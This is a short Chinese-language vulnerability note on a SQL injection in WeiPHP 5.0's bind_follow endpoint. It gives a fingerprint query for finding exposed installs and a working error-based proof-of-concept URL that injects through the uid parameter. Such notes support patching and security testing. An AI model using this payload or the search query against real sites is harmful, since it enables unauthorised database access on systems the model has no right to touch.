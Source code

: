 # WeiPHP5.0 bind_follow SQL注入漏洞

# WeiPHP5.0 bind_follow SQL注入漏洞

## 漏洞描述

Weiphp5.0 所有使用了 wp_where() 函数并且参数可控的SQL查询均受到影响，前台后台均存在注入。

## 漏洞影响

```
Weiphp5.0
```

## 网络测绘

```
app="WeiPHP"
```

## 漏洞复现

登陆页面

![img](/images/202202162318466.png)

验证POC

```php
/public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=)%20and%20updatexml(1,concat(0x7e,md5(%271%27),0x7e),1)--+
```

